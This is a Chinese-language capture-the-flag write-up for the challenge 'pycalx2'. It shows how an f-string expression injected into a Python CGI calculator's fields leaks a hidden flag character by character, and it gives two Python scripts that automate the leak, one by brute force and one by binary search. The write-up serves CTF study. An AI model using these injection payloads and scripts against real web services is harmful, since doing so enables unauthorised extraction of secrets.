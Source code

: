 ————————下面是pycalx2

把上面的op那里也加了`get_value`函数

![image-20211211173952684](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211211173952684.png)

不能用单引号了，这里考的地方是`f-string`的特性，可以直接插入运算表达式，不过要改一下脚本的思路

```
f"{Flag>source or 'e'}"
```

如果成功输出1，不成功输出e，拼接上前面的Tru，成功为Tru1，不成功为True

```python
import requests
import urllib
import string
url="http://192.168.60.131/cgi-bin/py.py?source={0}&value1={1}&op={2}&value2={3}"
flag=""
source=""
value1=urllib.parse.quote("T")
op=urllib.parse.quote("+f")
value2=urllib.parse.quote("ru{FLAG>source or 14:x}")
while True:
    prev = 0
    for i in range(255):

        if chr(i) in string.printable:
            source=flag+chr(prev)
            source=urllib.parse.quote(source)
            result=requests.get(url.format(source,value1,op,value2)).text
            #print(result)
            if "True" in result and "security" not in result:
                flag+=chr(prev-1)
                print(flag)
                break
            else:
                prev=i
```

```python
import requests, re


def calc(v1, v2, op, s):
    u = "http://206.189.223.3/cgi-bin/server.py?"
    payload = dict(value1=v1, value2=v2, op=op, source=s)
    r = requests.get(u, params=payload)
    res = re.findall("<pre>\n>>>>([\s\S]*)\n>>> <\/pre>",
                     r.content)[0].split('\n')[1]
    return res == 'Invalid'


def check(mid):
    s = flag + chr(mid)
    return calc(v1, v2, op, s)


def bin_search(seq=xrange(0x20, 0x80), lo=0, hi=None):
    assert (lo >= 0)
    if hi == None: hi = len(seq)
    while lo < hi:
        mid = (lo + hi) // 2
        if check(seq[mid]): hi = mid
        else: lo = mid + 1
    return seq[lo]
```